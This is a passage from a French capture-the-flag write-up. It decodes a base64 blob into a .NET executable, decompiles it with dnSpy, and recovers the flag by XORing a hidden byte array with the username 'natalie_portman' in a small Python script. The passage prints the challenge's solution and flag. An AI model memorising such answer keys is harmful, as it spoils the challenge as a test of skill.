AAAAAAcgBzAAAAAAA0AAgAAQBQAHIAbwBkAHUAYwB0AFYAZQByAHMAaQBvAG4AAAAxAC4AMAAuADAALgAwAAAAOAAIAAEAQQBzAHMAZQBtAGIAbAB5ACAAVgBlAHIAcwBpAG8AbgAAADEALgAwAC4AMAAuADAAAACwQwAA6gEAAAAAAAAAAAAA77u/PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiIHN0YW5kYWxvbmU9InllcyI/Pg0KDQo8YXNzZW1ibHkgeG1sbnM9InVybjpzY2hlbWFzLW1pY3Jvc29mdC1jb206YXNtLnYxIiBtYW5pZmVzdFZlcnNpb249IjEuMCI+DQogIDxhc3NlbWJseUlkZW50aXR5IHZlcnNpb249IjEuMC4wLjAiIG5hbWU9Ik15QXBwbGljYXRpb24uYXBwIi8+DQogIDx0cnVzdEluZm8geG1sbnM9InVybjpzY2hlbWFzLW1pY3Jvc29mdC1jb206YXNtLnYyIj4NCiAgICA8c2VjdXJpdHk+DQogICAgICA8cmVxdWVzdGVkUHJpdmlsZWdlcyB4bWxucz0idXJuOnNjaGVtYXMtbWljcm9zb2Z0LWNvbTphc20udjMiPg0KICAgICAgICA8cmVxdWVzdGVkRXhlY3V0aW9uTGV2ZWwgbGV2ZWw9ImFzSW52b2tlciIgdWlBY2Nlc3M9ImZhbHNlIi8+DQogICAgICA8L3JlcXVlc3RlZFByaXZpbGVnZXM+DQogICAgPC9zZWN1cml0eT4NCiAgPC90cnVzdEluZm8+DQo8L2Fzc2VtYmx5PgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAMAAAA4D0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | base64 -d > final.exe
```

```python
file final.exe
final: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Window
```

Pour info le md5 du programme final.exe :  c8ee2206ab0f920425a1856e50c6a30e

Il reste donc à decompiler le fichier C#.

Il exite de nombreux décompilateurs de .NET  disponibles sous windows 


Pour ce write-up nous utilisons dnspy. (https://github.com/0xd4d/dnSpy)

Attention : cela necessite de disposer d'une machine tournant sous Windows.



Après lecture du code, une variable est déclarée mais non utilisée.

```python
var flag = new byte[] { 0x23,0x20,0x26,0x32,0x17,0x24,0x25,0x3c,0x02,0x00,0x3b,0x07,0x2f,0x00,0x0a,0x13};
```

Il va falloir xorer cette chaîne avec l'identifiant de l'utilisateur.

Nous avons remarqué que l'utilisateur s'appelait HarddiskVolume1\Users\Natalie Portman\ et que l'indice donné dans l'archive est prenom_nom.

Nous pouvons supposer que la clé est natalie_portman.

Fichier exploit.py 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

key = "natalie_portman"

chaine2 = bytearray('\x23\x20\x26\x32\x17\x24\x25\x3c\x02\x00\x3b\x07\x2f\x00\x0a\x13')

print "".join([chr(chaine2[i] ^ord(key[i])) for i in range(len(key))])


```

python exploit.py 

Résultat : MARS{M@croIsBad
